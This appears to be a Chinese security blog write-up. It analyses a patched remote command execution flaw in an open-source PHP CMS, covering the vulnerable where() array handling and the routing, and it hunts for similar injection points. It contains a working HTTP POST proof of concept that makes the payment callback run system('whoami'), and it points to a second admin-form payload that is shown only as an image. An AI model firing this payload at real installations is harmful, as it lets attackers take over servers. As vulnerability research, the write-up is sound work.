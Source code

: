 前几日在浏览github项目时，发现之前审计过的一个cms更新了，从日志中看到修复了一个安全漏洞，并且源码是开源的，所以根据版本对比找到修补的地方，进而发现一个命令执行的漏洞

0x01 漏洞发现
=========

前几日在浏览github项目时，发现之前审计过的一个cms更新了，从日志中看到修复了一个安全漏洞，由于源码是开源的，所以可以根据版本对比找到修补的地方，进而发现其修复的地方。

![image-20240422173133556](https://shs3.b.qianxin.com/butian_public/f892671df16cf216de7d68a1f939560ee21fe773a6315.jpg)

然后查看修改记录，最后锁定这样一处可疑的地方，因为只有这里对参数进行了判断。修复方式时通过对post传入的参数进行了判断是否为空且是否为字符串

![image-20240422174219419](https://shs3.b.qianxin.com/butian_public/f9937073fbb5a034d5a7d3473f0361d205532a218cebc.jpg)

然后我们下载未修复的版本，使用phpstrom定位到代码进行审计。

0x02 漏洞分析
=========

了解了该cms的路由，接下来查看被修复的这个地方，通过POST传参`out_trade_no`之后传递给了下面的`where`语句

关键语句：

```php
$out_trade_no = $_POST['out_trade_no'];
$order = D('order')->field('id,order_sn,status,userid,username,paytype,money,quantity,`type`,`desc`')->where(array('order_sn' => $out_trade_no))->find();
```

通过这个代码可以分析出是执行了数据库查询的语句，但是这里也不可能发生sql注入，应为where语句中的参数采用了数组的传递方式，可以有效的避免sql注入漏洞，因为通过数组传递的参数会经过`addslashes`和`htmlspecialchars`的过滤。

![image-20240423165516548](https://shs3.b.qianxin.com/butian_public/f311008c3872bf9323de76878e8842567f34e1505a57e.jpg)

所以主要查看`where`语句中是对`out_trade_no`是如何处理的

这里对传入的`$arr`有两种处理方法，首先判断`$arr`是否为数组，我们先将判断为数组的部分折叠。如果不是数组，则直接拼接到`$this->key['where']['str']`中返回，这里如果没有对参数做相关过滤会造成sql注入。但是这里传入的是个数组，所以暂时不关注这里

![image-20240426145539397](https://shs3.b.qianxin.com/butian_public/f731125bff34af7522a27e2dcbdef5f73bed65a42d7ac.jpg)

接着我们主要查看where方法时如何处理数组的。

![image-20240426145921171](https://shs3.b.qianxin.com/butian_public/f748627b0658e3b490c2655b43f1449f65a429866f67c.jpg)

先看前半部分，`func_get_args()` 是 PHP 中的一个函数，用于获取传递给函数的所有参数。首先会遍历该数组，并且判断对每个值中的键值对进行遍历，其中 `$kk` 是该数组的键，`$vv` 是该数组的值。 当`$vv`不是个数组，会根据`$vv`的值构建SQL语句匹配条件。

在上面的补丁中也强制判断了参数必须是字符串，所以漏洞应该出现在传入的参数时数组的情况下。

所以主要来看一下当`$vv`为数组的情况下是如何处理的。

![image-20240426163330342](https://shs3.b.qianxin.com/butian_public/f82643532066492158df2361412e5f25c92fe4672eb20.jpg)

这里首先就看到了`$fun($rule)`这个地方，**如果`$fun`和`$rule`就可以执行任意函数和传参**，这里通过一个三元运算符判断的。

这里的`$fun`和`$rule`又是通过`$vv[1]`和`$vv[2]`得来的。至于`$vv[0]`则是通过上面的`$exp_arr`得到对应的运算符和逻辑表达式。

除此之外，由于`$exp`也是从`$vv[0]`得来的，所以在传参是必须有要这个键，从三元表达式可以看出，该值可以为空，也可以是从`$exp_arr`中的任意一个键

了解完漏洞的原理，其次会对该cms的路由进行分析，查看怎样才能触发这个函数。

0x03 路由分析
=========

经过分析该cms有三种获取路由信息的方式：

在初始化过程会在这里解析PATH\_INFO模式，这里会先判断是否存在`$_GET['s']`，如果存在则直接赋值给`PATH_INFO`，

![image-20240513152253625](https://shs3.b.qianxin.com/butian_public/f4151813151caf33f9009d3b99c352fca298fc84ca17a.jpg)

或者对url路径使用`/`为分隔符，并去除结尾的`.html`后缀和`index.php`，然后分别取第一位第二位和第三位作为`$_GET['m']`,`$_GET['c']`,`$_GET['a']`

![image-20240513151815903](https://shs3.b.qianxin.com/butian_public/f44211912fc7821d2be0526a307fa7c26ae3ff766441c.jpg)

然后根据`route_m``route_c``route_a`这几个方法分别通过从url中获取`m` `c` `a`参数作为模块名，控制器名和方法名。

![image-20240426141554790](https://shs3.b.qianxin.com/butian_public/f96441489094bf19475712b0051b24f6e57be41340e8b.jpg)

通过这种方式可以得出

第一种路由信息为`http://127.0.0.1/s=模块名/控制器名/方法名`

第二种路由信息为：`http://127.0.0.1/模块名/控制器名/方法名.html`

第三种路由信息为`http://127.0.0.1/?m=模块名&c=控制器名&a=方法名`。

所对应的文件路径为 ./application/模块名/controller/控制器.php，所对应的方法则是传递过来的方法

0x04 漏洞复现
=========

接下来查看他的路由

![image-20240426171311312](https://shs3.b.qianxin.com/butian_public/f944948b35716533213ea5f7a478403dcd4ccb504a666.jpg)

所以这里构建poc：

```php
POST /?m=pay&c=index&a=pay_callback HTTP/1.1
Host: 127.0.0.1:8081
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Cookie: XDEBUG_SESSION=PHPSTORM
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 61

out_trade_no[0]=eq&out_trade_no[1]=whoami&out_trade_no[2]=system
```

![image-20240426163635220](https://shs3.b.qianxin.com/butian_public/f7269737749365018a9b4024d38ba58545dea44a733b7.jpg)

成功执行命令。

0x05 举一反三
=========

既然知道了出发点是通过`where`语句的，并且从官方的修复方式来看只是对传参的地方做了修复，那会不会存在其他对参数控制不严的地方直接拼接到where语句。首先可以再找找哪里调用`where`语句，并且满足以下条件：参数必须是以数组形式传递的，并且传递的数组的值是可控的。

使用正则`->where\(array\(.*?\)->`进行搜索，然后寻找传递的数组的值是可控的的地方，当然也可以使用正则`->where\(\)->`进行搜索，因为参数是在别的地方复制的数组类型。

![image-20240510143140452](https://shs3.b.qianxin.com/butian_public/f9837982fde8971c1379d51202fe16de08d8d74a257de.jpg)

这里找到这样一处，在后台添加管理员的地方，这里的`$_POST["adminname"]`是直接传参的

![image-20240510151118617](https://shs3.b.qianxin.com/butian_public/f9600086b0f5c8a4defdb09000a66c6a03d0de6fb6815.jpg)

登陆后台后点击管理员管理，在点击添加管理员，

![image-20240510150745459](https://shs3.b.qianxin.com/butian_public/f4436974949f667a206003f2c442e94376a87547c2ea4.jpg)

随便输入用户名和密码，然后抓包

![image-20240510150852382](https://shs3.b.qianxin.com/butian_public/f3265988e0e4b6732bbc37da5a41b502b905ee5295320.jpg)

然后修改**roleid**为下面payload发包

![image-20240510151048511](https://shs3.b.qianxin.com/butian_public/f578053142df9243a12dd017e28570f221dd09e6ea1b2.jpg)